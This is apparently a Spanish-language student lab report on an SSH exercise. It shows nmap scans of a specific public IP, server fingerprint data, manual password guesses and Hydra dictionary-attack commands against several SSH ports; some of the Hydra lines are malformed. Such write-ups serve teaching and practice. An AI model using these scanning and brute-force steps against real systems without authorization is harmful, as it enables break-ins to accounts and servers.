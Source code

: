 # Práctica 4 - SSH multiverse

Azpeitia García Karyme Ivette

Pedro Méndez Jose Manuel 

## Procedimiento.

### Escanear el objetivo

Primero realizaremos un escaneo de puertos para encontrar y recopilar información sobre los puertos están activos escuchando by SSH, apoyandonos de nmap ejecutando este comando:

```bash
nmap 44.199.201.139 -sV -Pn -sT
```

| ![](img/nmapOut.png)
|:----------------------:|
| Imagen sobre la que trabajamos utilizando la herramienta: _Exif.tools_.

* Podemos observar que el servidor tiene los puertos abiertos para SSH abiertos:
	* 222/tcp  open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2200/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2222/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)

* Con shodan obtenemos que esta abierto el puerto 2200 y obtuvimos esta información.

```bash
OpenSSH6.6.1p1 Debian 5

SSH-2.0-OpenSSH_6.6.1p1 Debian-5
Key type: ssh-rsa
Key: AAAAB3NzaC1yc2EAAAADAQABAAABgQC4Iwij+KzpsW0v4w+7uIK4JUNv2guRNymYobgYXT5I1a2F
s3LQHPqy1MPxdgcL2NJJuQAVJv7ei4L2d9BRzn1MK10+Sf1iAidrGuCOJa+iY1ktxrynoePj/WOL
C2nR7roninmLQeUH8nUM6wYvb9qFaiEVH0LDtmoM0KdAiqq/Mndvaa5EcwYfmQ/CAUtg2y4n6Zyw
QjNLTtMljO8uM2wF5KJ9ucREhatb2M4YvvtQr07eKnGXwBKI03GYZMNHRcdLm8DxmDog+Ba4Gt9g
dpl/xQYPWqg130Dd24XPI/XPTCD41alelCCSNmL/4X5M2MAdTyll4d7Uc39owV13HELhh3ByyPmp
mr/ve3CCu3an1dYfvdU90JAv3PZoVQn3qCGxXFQghJs9VOPiiIxoeXxvAJCjInNt2xn/Ui47Vbwl
Y81ZXTXCKub/QI7/e8dbUqO8t4FyjfVMmGW0b65uRoBpRWl5gyV9ZtGTQPM+yfBS40fyuJ5rDQt/
48glIcHVnNE=
Fingerprint: ed:77:90:77:07:7e:17:39:b6:77:98:60:d0:0c:ef:c1

Kex Algorithms:
	curve25519-sha256@libssh.org
	ecdh-sha2-nistp256
	ecdh-sha2-nistp384
	ecdh-sha2-nistp521
	diffie-hellman-group16-sha512
	diffie-hellman-group-exchange-sha256
	diffie-hellman-group14-sha256
	diffie-hellman-group-exchange-sha1
	diffie-hellman-group14-sha1
	diffie-hellman-group1-sha1

Server Host Key Algorithms:
	rsa-sha2-512
	rsa-sha2-256
	ssh-rsa

Encryption Algorithms:
	aes128-ctr
	aes192-ctr
	aes256-ctr
	aes128-cbc
	aes192-cbc
	aes256-cbc
	3des-cbc

MAC Algorithms:
	hmac-sha2-256
	hmac-sha2-512
	hmac-sha2-256-etm@openssh.com
	hmac-sha2-512-etm@openssh.com
	hmac-sha1
	hmac-md5
	hmac-sha1-96
	hmac-md5-96

Compression Algorithms:
	none
```

* Sin embargo intentando obtener más información usando nmap y ejecutando el comando:  
	- sT TCP connect scan
	
```bash
nmap -sV -Pn -sT -p -10000 44.199.201.139
```

* Obtuvimos  los siguiente:	
PORT     STATE SERVICE VERSION
	* 222/tcp  open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2200/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* 2202/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)
	* **_2220/tcp open  netiq?_**.
	* 2222/tcp open  ssh     OpenSSH 6.6.1p1 Debian 5 (protocol 2.0)


* Obtendremos más información realizando unas conecciones vía ssh:

	- ssh -p 222 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- olakhace1
			- esdiverti
			- JOSEMPM12
	- ssh -p 2222 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- JOSEMANUE
			- josemanue
			- joseyapas
	- ssh -p _2202_ 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- contraseñ
			- CONTRASEÑ
			- NOPASASTE
	- ssh -p _**2220**_ 315073120@44.199.201.139 
		- No nos permite hacer nada y ahora creo que perdí mi tiempo, porque se queda en el limbo.
	- ssh -p 2222 315073120@44.199.201.139 
		- nos permite realizar 3 intentos de contraseña
			- pasaste12
			- bandera12
			- BANDERASI
 
####  Uso del parámetro _-v_.

* Ejecutando ssh con el párametro *_-v_* sobre uno de los puertos que nos permitían intentar realizar una conección rapido obtuvimos la siguiente información tras poder ingresar nuestra clave:

```bash
ntory@debian11:~$ ssh -v -p 2202 315073120@44.199.201.139 
OpenSSH_8.4p1 Debian-5+deb11u1, OpenSSL 1.1.1n  15 Mar 2022
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 44.199.201.139 [44.199.201.139] port 2202.
debug1: Connection established.
debug1: identity file /home/ntory/.ssh/id_rsa type -1
debug1: identity file /home/ntory/.ssh/id_rsa-cert type -1
debug1: identity file /home/ntory/.ssh/id_dsa type -1
debug1: identity file /home/ntory/.ssh/id_dsa-cert type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa-cert type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa_sk type -1
debug1: identity file /home/ntory/.ssh/id_ecdsa_sk-cert type -1
debug1: identity file /home/ntory/.ssh/id_ed25519 type -1
debug1: identity file /home/ntory/.ssh/id_ed25519-cert type -1
debug1: identity file /home/ntory/.ssh/id_ed25519_sk type -1
debug1: identity file /home/ntory/.ssh/id_ed25519_sk-cert type -1
debug1: identity file /home/ntory/.ssh/id_xmss type -1
debug1: identity file /home/ntory/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u1
debug1: Remote protocol version 2.0, remote software version OpenSSH_6.6.1p1 Debian-5
debug1: match: OpenSSH_6.6.1p1 Debian-5 pat OpenSSH_6.6.1* compat 0x04000002
debug1: Authenticating to 44.199.201.139:2202 as '315073120'
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: curve25519-sha256@libssh.org
debug1: kex: host key algorithm: rsa-sha2-512
debug1: kex: server->client cipher: aes128-ctr MAC: hmac-sha2-256-etm@openssh.com compression: none
debug1: kex: client->server cipher: aes128-ctr MAC: hmac-sha2-256-etm@openssh.com compression: none
debug1: expecting SSH2_MSG_KEX_ECDH_REPLY
debug1: Server host key: ssh-rsa SHA256:f+L9DhB9m8fs7VoLhofLiCe55Kqe3Lf6vVPo+Ryaq8M
debug1: Host '[44.199.201.139]:2202' is known and matches the RSA host key.
debug1: Found key in /home/ntory/.ssh/known_hosts:4
debug1: rekey out after 4294967296 blocks
debug1: SSH2_MSG_NEWKEYS sent
debug1: expecting SSH2_MSG_NEWKEYS
debug1: SSH2_MSG_NEWKEYS received
debug1: rekey in after 4294967296 blocks
debug1: Will attempt key: /home/ntory/.ssh/id_rsa 
debug1: Will attempt key: /home/ntory/.ssh/id_dsa 
debug1: Will attempt key: /home/ntory/.ssh/id_ecdsa 
debug1: Will attempt key: /home/ntory/.ssh/id_ecdsa_sk 
debug1: Will attempt key: /home/ntory/.ssh/id_ed25519 
debug1: Will attempt key: /home/ntory/.ssh/id_ed25519_sk 
debug1: Will attempt key: /home/ntory/.ssh/id_xmss 
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521,rsa-sha2-512,rsa-sha2-256,ssh-rsa,ssh-dss>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: password,publickey
debug1: Next authentication method: publickey
debug1: Trying private key: /home/ntory/.ssh/id_rsa
debug1: Trying private key: /home/ntory/.ssh/id_dsa
debug1: Trying private key: /home/ntory/.ssh/id_ecdsa
debug1: Trying private key: /home/ntory/.ssh/id_ecdsa_sk
debug1: Trying private key: /home/ntory/.ssh/id_ed25519
debug1: Trying private key: /home/ntory/.ssh/id_ed25519_sk
debug1: Trying private key: /home/ntory/.ssh/id_xmss
debug1: Next authentication method: password
315073120@44.199.201.139's password: 
```

* Ejecutando ssh con el párametro *_-v_* sobre el puerto(2220) que NO nos permitían intentar realizar una conección rapido obtuvimos la siguiente información tras poder ingresar nuestra clave:
	- La salida se encuentra en el archivo [result.txt](\files\result.txt) porque fue muy grande. Y no pude interpretar la salida del debug1. :sad: 

* Por lo que ahora atacaremos los 4 puertos que permiten realizar una conección by ssh.

* Para realizar las listas de palabras con 9 caracteres filtre las wordlist encontradas en internet utilice este [colab](https://colab.research.google.com/drive/1hnuIa4-3IH76sHEHqztqiwj_ImMm-PUe?usp=sharing).
### Atacar al objetivo: 

Obtener mediante un ataque de diccionario la contraseña correspondiente a su  usuario (utilizando Hydra por ejemplo).

* Primero instalaremos Hydra en nuestra AttackBox con el siguiente comando:
```bash
sudo dnf install hydra -y 
```
#### Luego atacaremos el puerto 222 con el comando:

```bash
hydra -s 222 -l 315073120 -P /home/ntory/CyS/p04/palabras9car.txt 44.199.201.139 -t 4 -f ssh
```

O si configuras 44.199.201.139 como attackbox2

hydra -l usuario -p contraseñaAUsar attackbox2 ssh
44.199.201.139 

hydra -L archivo_de_usuario -p contraseñaAUsar attackbox2 ssh 

hydra -L 315073120 -P palabras_9car.txt: 44.199.201.139  ssh 

###  Crear evidencia de haber entrado al sistema

La parte más sencilla, basta que ejecuten $ touch $NumeroDeCuenta para dejar registro que estuvieron ahí.

### Post-explotación.
```bash
PLANTILLA
```
------
📢⌨️ with ❤️ by [Jose-MPM](https://github.com/Jose-MPM) 😊⌨️ and [Kary-GOD](https://github.com/Kary-AG) 😊⌨️🎁
